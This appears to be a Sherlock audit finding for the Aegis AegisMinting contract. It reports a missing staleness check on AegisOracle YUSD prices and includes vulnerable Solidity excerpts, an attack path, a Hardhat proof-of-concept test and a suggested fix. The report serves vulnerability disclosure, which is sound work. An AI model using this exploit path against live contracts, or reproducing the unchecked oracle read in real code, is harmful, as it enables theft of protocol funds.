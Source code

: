 Passive Garnet Goldfish

Medium

# Missing Staleness Check for AegisOracle Prices in AegisMinting

### Summary

The lack of staleness validation for AegisOracle prices will cause price manipulation vulnerability for users as a malicious operator will intentionally not update prices during adverse market conditions, allowing redemptions at outdated (potentially favorable) prices.

### Root Cause

In [AegisMinting.sol:_getAssetYUSDPriceOracle](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L817) the code retrieves the YUSD price without checking if it's stale:
```solidity
function _getAssetYUSDPriceOracle(address asset) internal view returns (uint256, uint8) {
  if (address(aegisOracle) == address(0)) {
    return (0, 0);
  }

  int256 yusdUSDPrice = aegisOracle.yusdUSDPrice();
  if (yusdUSDPrice == 0) {
    return (0, 0);
  }
  // ... continues without checking the timestamp
}
```

This is in stark contrast to the Chainlink price validation in [_getAssetUSDPriceChainlink](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L805):

```solidity
function _getAssetUSDPriceChainlink(address asset) internal view returns (uint256, uint8) {
  // ...
  (, int256 answer, , uint256 updatedAt, ) = _feedRegistry.latestRoundData(asset, Denominations.USD);
  require(answer > 0, "Invalid price");
  require(updatedAt >= block.timestamp - chainlinkAssetHeartbeat[asset], "Stale price");
  // ...
}
```



### Internal Pre-conditions

1. AegisOracle must be set in the AegisMinting contract
2. The price in AegisOracle must be outdated (not updated recently)

### External Pre-conditions

1. Market conditions must change significantly since the last oracle update

### Attack Path

1. AegisOracle operator intentionally doesn't update the YUSD price during market volatility
2. Market conditions change, making the current YUSD price significantly different from the stale oracle value
3. Users exploit this difference by redeeming YUSD based on the outdated price
4. Protocol accepts the redemption without checking if the oracle price is stale
5. Users receive more or less collateral than they should based on current market conditions

### Impact

The protocol suffers a loss due to accepting stale prices for critical operations. Users can exploit this to redeem at favorable rates during adverse market conditions, or alternatively may receive less than expected if the price has moved in their favor but the oracle hasn't updated.

### PoC

```solidity
it('should accept stale AegisOracle prices', async () => {
  const [owner, sender] = await ethers.getSigners()
  
  const { aegisMintingContract, aegisMintingAddress, assetAddress, assetContract, yusdContract, aegisConfig } = await loadFixture(deployFixture)
  
  // Create and configure AegisOracle
  const oracle = await ethers.deployContract('AegisOracle', [[owner.address], owner.address])
  await oracle.setOperator(owner.address, true)
  
  // Set price
  await oracle.updateYUSDPrice('100000000') // 1.0 with 8 decimals
  
  // Set oracle in minting contract
  await aegisMintingContract.grantRole(SETTINGS_MANAGER_ROLE, owner.address)
  await aegisMintingContract.setAegisOracleAddress(await oracle.getAddress())
  
  // Capture the timestamp of when we set the price
  const priceTimestamp = await oracle.lastUpdateTimestamp()
  
  // Move time forward significantly (e.g., 7 days)
  await time.increase(7 * 24 * 60 * 60)
  
  // Verify that the price timestamp is indeed old
  const currentTime = await time.latest()
  expect(currentTime).to.be.gt(Number(priceTimestamp) + 5 * 24 * 60 * 60) // At least 5 days old
  
  // Setup for redeem operation
  await aegisConfig['whitelistAddress(address,bool)'](sender.address, true)
  
  // Set up Chainlink feed with a recent timestamp to isolate the stale oracle issue
  const feedRegistry = await ethers.deployContract('FeedRegistry')
  await aegisMintingContract.setFeedRegistryAddress(feedRegistry)
  await feedRegistry.setPrice(assetAddress, USD_FEED_ADDRESS, '100000000')
  await feedRegistry.setUpdatedAt(await time.latest())
  await aegisMintingContract.setChainlinkAssetHeartbeat(assetAddress, 86400)
  
  await yusdContract.setMinter(owner.address)
  await yusdContract.mint(sender.address, ethers.parseEther('100'))
  await yusdContract.setMinter(aegisMintingAddress)
  await yusdContract.connect(sender).approve(aegisMintingAddress, ethers.parseEther('1000'))
  
  // Create a redeem request using the stale oracle price
  const requestId = 'stale_test'
  const redeemOrder = {
    orderType: OrderType.REDEEM,
    userWallet: sender.address,
    collateralAsset: assetAddress,
    collateralAmount: ethers.parseEther('10'),
    yusdAmount: ethers.parseEther('10'),
    slippageAdjustedAmount: ethers.parseEther('9'),
    expiry: (await time.latest()) + 10000,
    nonce: Date.now(),
    additionalData: encodeString(requestId),
  }
  const signature = await signOrder(redeemOrder, aegisMintingAddress)
  
  // This should succeed even with the stale oracle price
  await expect(aegisMintingContract.connect(sender).requestRedeem(redeemOrder, signature)).not.to.be.reverted
  
  console.log("Oracle last update timestamp:", await oracle.lastUpdateTimestamp())
  console.log("Current timestamp:", await time.latest())
  console.log("Difference (days):", ((await time.latest()) - Number(await oracle.lastUpdateTimestamp())) / (24 * 60 * 60))
  
  // The vulnerability is demonstrated - the system uses the stale price without any check
})
```


### Mitigation

Add a staleness check in the `_getAssetYUSDPriceOracle` function similar to what exists for Chainlink prices:
```solidity
function _getAssetYUSDPriceOracle(address asset) internal view returns (uint256, uint8) {
  if (address(aegisOracle) == address(0)) {
    return (0, 0);
  }

  int256 yusdUSDPrice = aegisOracle.yusdUSDPrice();
  if (yusdUSDPrice == 0) {
    return (0, 0);
  }
  
  // Add staleness check
  uint32 lastUpdateTimestamp = aegisOracle.lastUpdateTimestamp();
  require(lastUpdateTimestamp >= block.timestamp - MAX_ORACLE_STALENESS, "Stale YUSD price");
  
  // Continue with existing logic
  uint8 yusdUSDPriceDecimals = aegisOracle.decimals();
  (uint256 assetUSDPrice, ) = _getAssetUSDPriceChainlink(asset);

  return ((assetUSDPrice * 10 ** yusdUSDPriceDecimals) / uint256(yusdUSDPrice), yusdUSDPriceDecimals);
}
```

2. Add a configurable MAX_ORACLE_STALENESS parameter that can be set by administrators to define the acceptable staleness threshold for the AegisOracle.